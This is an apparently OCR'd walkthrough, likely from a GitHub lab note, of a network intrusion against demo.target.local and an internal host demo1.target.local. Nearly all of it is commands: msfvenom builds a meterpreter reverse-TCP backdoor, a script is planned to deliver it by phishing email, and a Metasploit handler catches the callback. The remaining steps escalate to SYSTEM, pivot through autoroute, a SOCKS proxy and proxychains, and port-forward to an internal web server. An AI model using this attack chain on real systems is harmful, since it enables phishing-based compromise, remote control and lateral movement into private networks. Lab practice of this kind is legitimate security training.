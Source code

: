 ```bash
# There is 2 Targets that we want to gain access to …
# demo.target.local --> exposed server Hosting the mail server that our target using..
# demo1.target.local --> non-reachable target (employees computers)
# The Target email will be pop.demo@local
# =========================================================================
# 1) Nmap Scan on demo.target.local
~$ nmap -Pn -sS -sV -F demo.target.local # This Should be Fast Scan | Its a WIN Server and Runing hMAilServer smtp
# =========================================================================
# 2) Gnerating the payload before anything else :
~$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=(UR-IP) LPORT=9988 -f exe > backdoor.exe
# =========================================================================
# 3) Creating ***email_sinding.py*** script that will utilize the smtp lib to sending for us => You can find a snappit in the next code section
# After Creation give the script execution
~$ chmod +x ***email_sinding.py***
# =========================================================================
# 4) Running Metasploit handler
~$ msfconsole -q
msf6> use exploit/multi/handler
msf6 exploit(multi/handler)> set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler)> set LHOST=<yourIP>
msf6 exploit(multi/handler)> set LPORT=9988
msf6 exploit(multi/handler)> run
# =========================================================================
# While Our Handler Listening we should RUN our ython script in another terminal and whait
# If the target clickd on the sended email we will get a meterpreter sesstion
# =========================================================================
# 5) From Our Meterpreter sesstion, We Should now be able to Ping the non-reachable target demo1.target.local
meterpreter> getuid # To know Who U R ..
meterpreter> sysinfo # To Know What you Have ..
meterpreter> getprivs # To know What U Can Do !
meterpreter> getsystem # To get AUTHORITY\SYSTEM PRIV
meterpreter> shell # to get a shell prompt on your target
C:\windows\system32> ping demo1.target.local # Yes Its Reachable now ..
# Terminate this shell sesstion to back to your meterpreter sesstion
meterpreter> run autoroute -s <demo1 IP Address/subnet>
# After adding the route, Background this sesstion..
# =========================================================================
# 6) Integrate with demo1.target.local through our sesstion 1 ..
# Performing an Port Scan using Metasploit on demo1.target.local
msf6 exploit(multi/handler)> search socks_proxy
msf6 exploit(multi/handler)> use 0
msf6 auxiliary(server/socks_proxy)> cat /etc/proxychains4.conf # To know the defult port of socks4 -> 9050
msf6 auxiliary(server/socks_proxy)> show options
msf6 auxiliary(server/socks_proxy)> set SRVPORT 9050
msf6 auxiliary(server/socks_proxy)> set VERSION <UR Version>
msf6 auxiliary(server/socks_proxy)> exploit # Now You Could to go Put To make sure !..
msf6 auxiliary(server/socks_proxy)> jobs # This Should Print up the runnig job
# Open a new Terminal tab
~$ netstat -antp # this should gives you the port 9050 listen state
# Now to port scanning ..
~$ proxychains nmap -sT -Pn -F demo1.target.local # Gives us thet there web server runing on port 80
# semi Port Forwarding ...
# Back to your metasploit active sesstions tab ..
msf6 auxiliary(server/socks_proxy)> sesstions
msf6 auxiliary(server/socks_proxy)> sesstion 1
meterpreter> portfwd add -l 4455 -p 80 -r <demo1 IP Address>  # 4455 or whatever u want ...
# Back to a Blank new tab ..
~$ nmap -sV -p 4455 localhost # That gives us BadBlue 2.7
```